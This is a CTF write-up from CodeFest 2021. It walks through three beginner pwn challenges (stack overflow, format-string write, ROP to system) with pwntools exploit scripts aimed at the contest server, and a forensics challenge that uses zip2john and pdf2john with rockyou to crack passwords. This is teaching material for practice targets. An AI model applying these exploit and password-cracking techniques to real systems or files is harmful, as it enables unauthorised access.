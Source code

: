 # WriteUp for CodeFest

These will include the challenges I was able to do in the last 2 hours of the 24 hour ctf @ CodeFest 2021. I was able to solve the entire pwn category which was easy and beginner friendly and one forensics challenge which was very practical and straight-forward.

# Pwn Category

## C is Hard

#### [Download files from here](https://github.com/not-duckie/RandomPwn/tree/master/ctf21/C_is_hard)

This was the first challenge which has stack overflow vulnerability and the goal was to overflow the buf and call a hidden function called print_flag.

Let's start by analyzing the function in radare2.

```
r2 -R'stdin=input.txt' ./source_fixed.
```

![](https://i.imgur.com/4FEEWxS.png)

So our target is to go to the `sym.print_flag` as it will get us the flag. So how we can jump to the function. Lets start by analyzing the `sym.vuln` function.

![](https://i.imgur.com/VcWQQvr.png)

The function seems simple: we overflow the buffer s (i.e rbp-0x20 \[check top of the function\]). So after we give 0x20 bytes we will get to rbp and then rip. Thus our exploit will look like this:-

```
from pwn import *


padding = b'i'*0x20
flag = p64(0x4011b6)

payload = padding
payload += b'A'*0x8
payload += flag

#p = process('./source_fixed')
p = remote('chall.codefest.tech',8780)
p.recvline()
p.sendline(payload)
p.interactive()
```

and we get our first flag as:-
codefest{overflowing_stacks_for_flags_and_fun_768999766}

## Take Me to Cafe
#### [Download files from here](https://github.com/not-duckie/RandomPwn/tree/master/ctf21/take_me_to_cafe)


This challenge is format string vulnerability in which we will have to overwrite a variable to value 0xcafe in order to get the flag and then finally go to the pawry(hidden joke in challenge :P).

start by analyzing the function:-

```bash
r2 -R'stdin=input.txt' ./format
```

![](https://i.imgur.com/hO4whEy.png)

![](https://i.imgur.com/nmmVc7b.png)

We see that the function sym.print_flag is called if the `cmp eax, 0xcafe` is passed. So all we need to do is move the value 0xcafe to ebx+0x44 so it is moved to eax and then we pass the cmp and get the flag.

The vulnerability as hinted by the binary name and the confirmed from the source code is format string. With this we can write any value to any address with the help of %n parameter.

%n basically write the number of bytes printed to screen so far to a given address.

Let's start by determining where our first argument lands on the stack. Send the input

```bash
aaaabbbbcccc%lx %lx...
```
repeat the %lx until you see the aaaa in hex.

![](https://i.imgur.com/wj92pSQ.png)

we see that our aaaa lands as the 4th argument on the stack. Confirm it by testing it again.

![](https://i.imgur.com/M36tQuF.png)

Now all we need to overwrite the cmp to pass it and get the flag shown we found earlier. Thus the exploit will look like this.

The exploit basically writes a number to a given address that is 0x804c044. It takes some hit and trial to find the correct value to write but start with int(0xcafe) and adjust accordingly.

```python
from pwn import *

padding = b'i'*88

addr = p32(0x804c044)

payload = addr + b"%51962d%4$hn"

#p = process('./format')
p = remote('chall.codefest.tech',8744)
print(p.recvuntil('will go\n'))
p.sendline(payload)
p.interactive()
```
And we get the flag along with the meme reference.
![](https://i.imgur.com/DHieiRo.png)


## Welcome to the Pawry

Welcome the pawry is a simple rop challenge. We get a buffer overflow, string in binary "/bin/cat flag.txt" and system call and we need to create a rop chain to get the flag.

The challenge is straightforward so the exploit should be self explanatory.

```python
from pwn import *


# 24 + ebp + eip

padding = b'i'*28

binCat = p32(0x804c028)
system_call = p32(0x8049214)


payload = padding + system_call + binCat

p = process('./pawry')
#p = remote('chall.codefest.tech',8686)
p.recvuntil('.')
p.sendline(payload)
p.interactive()
```

# Forensics

## Anime is Love <3
#### [Download files from here](https://github.com/not-duckie/RandomPwn/tree/master/ctf21/animeIsLove)

This was a good forensics challenge that required a little bit of manual work. I liked it alot. The challenge starts with the given prompt.

![](https://i.imgur.com/GjtltNN.png)

So start by analyzing the hexdump of the image and find that there is flag.txt at the end of the image.

![](https://i.imgur.com/nFL08k5.png)

So let's extract it. The jpg files usually end with FFD9 byte. We extract everything after that in file called foo.

```
dd if=anime.jpg of=tmp bs=1 skip=362196
```

Here skip the address of the line where we found the ending byte in int (0x586D4).

###### Note
```bash
i am using ghex and my hex editor.
```

![](https://i.imgur.com/TATw0ud.png)

After cleaning up the file by removing extra bytes that may have been copied and fixing the magic byte of the zip file (i.e 50 4B). And we have a clean zip file.

When we try to open it we find it has a password protection. So convert it to hash and brute force it with john.

```bash
zip2john tmp.zip > hash
john --wordlist=~/rockyou.txt hash
```

We find the password as dragonballz. But the picture was of naruto ? wtf.

The flag.txt is a pdf file which when opened with the viewer opens weird. So lets repair it with foremost and try it again.

```bash
foremost flag.txt
```
Now when it opens it, it asks for a password.

```bash
pdf2john 00000.pdf > hash
john --wordlist=~/rockyou.txt hash
```

The password is naruto and we get the flag.

codefest{y0u_4r3_g00d_4t_m4g1c_byt35}
